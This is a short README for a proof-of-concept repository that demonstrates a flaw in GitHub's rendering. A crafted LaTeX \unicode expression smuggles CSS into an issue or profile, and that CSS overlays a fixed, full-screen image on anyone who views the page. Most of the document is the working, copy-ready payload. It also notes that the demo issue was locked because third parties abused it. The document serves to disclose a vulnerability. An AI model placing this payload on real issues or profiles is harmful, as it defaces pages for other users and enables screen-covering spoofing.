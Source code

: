 # GithubFullscreenIssuePoC

This repo is to demonstrate an issue with Github that covers the users screen when they interact with an issue.

Issue Link / PoC: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC/issues/1)  

Note: Issue as been closed and locked due to abuse by third-party users, however this can be applied to both open issues, as well as user profiles.

```
Test

$$\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: 5; position: fixed; inset: 0; opacity: 100%; background-size: 100% 100%; background-image: url('https://raw.githubusercontent.com/Reelix/GithubFullscreenIssuePoC/main/Github-Logo.png');]{x0000}$}$$
```
